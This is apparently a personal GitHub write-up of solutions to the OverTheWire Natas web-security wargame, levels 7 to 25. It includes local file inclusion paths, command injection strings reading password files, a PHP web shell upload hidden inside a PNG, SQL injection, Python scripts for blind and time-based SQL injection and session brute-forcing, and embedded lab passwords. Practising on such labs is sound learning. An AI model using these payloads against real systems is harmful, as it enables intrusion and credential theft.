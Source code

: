 # over-the-wire-natas
Did till natas7 b4 creating this repo <br>
Starting from natas7<br><br>
->Natas7<br>
used concept of local file inclusion. open source code(ctrl+U) and hint is given that pwd is in /etc/.../natas8/. observe that url of home and about contains php part.
from "https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion"<br> Typical proof-of-concept would be to load passwd file:
<i>http://vulnerable_host/preview.php?file=../../../../etc/passwd. </i> so just put /etc../natas8 in url instead of about. <br> <br>
->Natas8<br>
nothing in ctrl+U. going to "view sourcecode" will find php code. take the encodedSecret, convert it to ascii, reverse it, decode base64 and lesgoo!! <br><br>
->Natas9<br>
play around. type * and it gives the source code. tried ls -a. # verifies that it's working. ```| cat``` gives entire txt file. or just do http://natas9.natas.labs.overthewire.org/dictionary.txt (as proven by typing ```ls -a``` in search)<br> given at beginning of natas - all pwds are at /etc/natas_webpass/natasX. so type ```| cat /etc/natas_webpass/natas10```.<br>unrelated info: no. of "." (periods) will determine the min. word length. supports regex. type ^.......$ to get 7 letter words only<br><br>
->Natas10<br>
search ```"" cat /etc/natas_webpass/natas11```.<br><br>
->Natas11<br>
WTF. 3 things - key,cipher,plaintext - are reqd. in XOR encryption. to find key do XOR of cipher and plaintext. plaintext = ```{"showpassword":"no","bgcolor":"#ffffff"}```. copy COOKIE, b64 decode it, XOR it using plaintext as key. key will be obtained as repeated pattern. now set showpwd to yes in plaintext and do reverse to find cookie. change value of cookie and reload page.<br><br>
->Natas12<br>
```A malicious file such as a Unix shell script, a windows virus, an Excel file with a dangerous formula, or a reverse shell can be uploaded on the server in order to execute code by an administrator or webmaster later – on the victim’s machine.```<br>
just write a php file with code ```<?php
$output = shell_exec('cat /etc/natas_webpass/natas13');
echo "<pre>$output</pre>";
?>``` and save it with .php extension. then choose it and upload it through burpsuite using proxy. in burpsuite change the file extension in file name to .php and forward the request. open the file on the site to find pwd.<br><br>
->Natas13<br>
bit tricky. take a png file (i took a ss of 140bytes). open "hexed.it" (or any other tool u find useful). upload the png file. now, afaik, png files are recognized by IHDR and IEND tags in the hexdump. so just paste your php code after IEND. save it and follow the prev level steps now. key would be displayed after the hexdump of png file like ```�PNG  IHDR�=M�sRGB���gAMA���a pHYstt�fx!IDAT8Oc�����@`��D�Q ĀQ ĀA���hl� �IEND�B`�z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ```.<br><br>
->Natas14<br>
v simple. sql injection. write username admin. pwd as ```"or '1'='1'"```. yay!<br><br>
->Natas15<br>
itta ni aata, sry. "https://medium.com/@kawsaruddin238/overthewire-natas-level-14-level-15-411de023672c"<br><br>
->Natas16<br>
```
import requests,string
#BLIND SQL INJECTION
#$(command) - command subsitution
url = "http://natas16.natas.labs.overthewire.org"
username = "natas16"
pwd = "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"

ch = 'qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM1234567890'
password=''
for i in range(1,34):
    for char in ch:
        uri = f"{url}?needle=$(grep -E ^{password}{char}.* /etc/natas_webpass/natas17)hackers"
#grep -i "$(grep -E ^{''.join(password)}{char}.* /etc/natas_webpass/natas17)hackers" dictionary.txt
#hackers is a unique word in dictionary. so if anything gets prepended to it through our script,
#then it shouldn't return anything, right. so just add char to password with which nothing gets printed out.     
        r = requests.get(uri, auth=(username,pwd))
        if 'hackers' not in r.text:
            #The text attribute of the response object (r)
            password += char
            print(password)
            break
        else:
            continue
#"https://mcpa.github.io/natas/wargame/web/overthewire/2015/10/01/natas16/"
```
<br><br>
->Natas17<br>
read: "https://owasp.org/www-community/attacks/Blind_SQL_Injection" time-based part. help taken.
```
import requests
import time

url = "http://natas17.natas.labs.overthewire.org"
auth = ("natas17", "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC")
characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
cset = ""
for char in characters:
    payload = f'natas18" AND IF(password LIKE BINARY "%{char}%", SLEEP(15), 0) -- '
    start_time = time.time()

    response = requests.get(url, params={"username": payload}, auth=auth)

    elapsed_time = time.time() - start_time
    if elapsed_time > 15:  
        cset += char
print(f"Charset: {cset}")

password = ""
while len(password) != 32:
	for c in cset:
		t = password + c
		username = 'natas18" AND IF(password LIKE BINARY "%s%%",SLEEP(%d), 1)#' % (t, 15)
		r = requests.get(url, auth=auth, params={"username": username}
		)
		s = r.elapsed.total_seconds()
		if s >= 15:
			#print (t)
			password = t
			break
print("password: ",password)
```
<br><br>
->Natas18<br>
"https://stackoverflow.com/questions/1370951/what-is-phpsessid" ```PHP uses one of two methods to keep track of sessions. If cookies are enabled, like in your case, it uses them.``` ig hint is maxid = 640. so just loop through PHPSESSID from 1 to 640 using py script or burpsuite intruder. i used burpsuite sniper attack.<br><br>
->Natas19<br>
```
import requests ```
username = 'natas19'
pwd = 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr'
url = 'http://natas19.natas.labs.overthewire.org/'
#start a session
session = requests.Session()
#the cookie that i got is the hex form of "80-admin"-'38302d61646d696e', so try replacing 80
for x in range(1,641):
    string = (f"{x}"+"-admin").encode('utf-8')
    payload = string.hex()
    print(payload)
    response = session.get(url,cookies={'PHPSESSID':payload}, auth=(username,pwd))
    content = response.text
    if "You are an admin" in content:
        print("yello", x)
        break
    else:
        print ("tried: ", x)

```
<br><br>
->Natas20<br>
pay attention to ```$_SESSION[$parts[0]] = $parts[1];``` in source code and add "/index.php?debug" to url to print debug output. if you put name as "test" output is like read: \[name test\] then newline read: [] so if we make $parts = {'admin','1'} this lvl will be solved, as final condition is ```$_SESSION["admin"] == 1```.
so using burp suite make input of name like "test<newline>admin 1" this goes to mywrite and gets ksort-ed and gets printed as "admin=>1\nname=>test admin 1" and myread reads it after it ksorts it.<br>better would be enter "http://natas20.natas.labs.overthewire.org/index.php?debug&&name=test%0D%0Aadmin%201" and reload 1-2 times so u can see it along with debug. 2nd part is just url encoded "test\nadmin 1".<br><br>
->Natas21<br>
intercept the request to update styles on 2nd page through burpsuite and add "&admin=1". forward it. if you go to debug page, you can see that it has been added to the session array. simply reloading page1 doesn't work. so copy the cookie of pg2 and replace pg1's cookie with it and then reload :) .<br><br>
->Natas22<br>
took help. there is a paramter in session.get() called allow_redirects. make it equal to false.<br><br>
->Natas23<br>
type conversion error in php. read "https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09". ```For example, when PHP needs to compare the string “7 puppies” to the integer 7, PHP will attempt to EXTRACT the integer from the string. So this comparison will evaluate to True.``` try different combinations. will work for "<no>iloveyou" where <no> > 10. <br><br>
->Natas24<br>
"https://0xjay.com/bypassing-php-strcmp". ```== (strcmp) is an insecure comparison if the two strings are equal to each other then it returns true, this does not check data types. If we submit an empty array token[]=something PHP translates GET variables like this to an empty array which causes strcmp() to barf: strcmp(array(), "token") -> NULL which will return 0```. so in url just write "/?passwd[]=dsaa" (anything). it will throw an error and the flag.<br><br>
->Natas25<br>
help taken. 



